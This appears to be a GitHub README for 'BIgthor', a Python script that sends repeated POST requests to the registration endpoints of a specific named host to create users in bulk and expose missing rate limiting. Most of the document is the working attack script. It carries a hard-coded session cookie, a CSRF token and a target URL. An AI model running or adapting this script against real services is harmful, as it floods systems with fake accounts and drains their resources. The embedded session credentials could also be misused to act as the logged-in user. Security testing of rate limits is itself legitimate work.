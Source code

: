
# BIgthor

BIgthor is a Python script that demonstrates a lack of resources and rate-limiting vulnerability by simulating bulk user creation on a specified endpoint. The script sends multiple POST requests to the given URLs to create users in bulk.

## Features

- Simulates bulk user creation to test rate limiting and resource management vulnerabilities.
- Sends multiple POST requests to specified endpoints.

## Usage

1. Ensure you have Python and the `requests` library installed on your system.
2. Save the script as `BIgthor.py`.
3. Run the script using the command: `python BIgthor.py`.

## Example

```python
import requests

# URL and headers for the requests
url_confirm = "http://pt-test-qlick.dev.qlife.co.jp/users/confirm"
url_register = "http://pt-test-qlick.dev.qlife.co.jp/users/register"
headers = {
    "Cookie": "qlick_session=eyJpdiI6Im9KS2FRRXFNWHZrdUxWemgvU2ZRQXc9PSIsInZhbHVlIjoiK0ppZVNKTjBZMUdQWHVWUW1Hb0JyNEFEY0lCRjZVQ1IvbjhTWmNFOXVLMjVNK0Q1REdpVjRHQWxvQmpzTjdxdEVpUGdla2sxSFN3YVlHTjNac0MxdVBCR1F0c0dRS0lnTWtCM2UxQXBzWm1YLzgyVWRQR2pSR3N4Q3pVL1Y4K2siLCJtYWMiOiIyMjQ3Mzc2MTc2ZGM4MDEwZWI5NDAxNzlmM2M0ODRlNmY4MWFkYWNlYTUzYzZiZjU4ZTNhM2I3YWYyNjJhNmJmIiwidGFnIjoiIn0%3D;",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Data for the requests
data_confirm = {
    "organizationId": "269",
    "name": "ishan",
    "email": "ishan%40asa.ass",
    "roleId": "3",
    "_token": "pQmDc7bx9oXSrF6fdlJ9p3DXvcJmJIK13vp8kC5R"
}

data_register = {
    "_token": "pQmDc7bx9oXSrF6fdlJ9p3DXvcJmJIK13vp8kC5R"
}

def create_users(count=30):
    for _ in range(count):
        response_confirm = requests.post(url_confirm, headers=headers, data=data_confirm)
        response_register = requests.post(url_register, headers=headers, data=data_register)
        if response_confirm.status_code == 200 and response_register.status_code == 200:
            print("User created successfully")
        else:
            print("Failed to create user")

if __name__ == "__main__":
    create_users()
```

## License

This project is licensed under the MIT License.
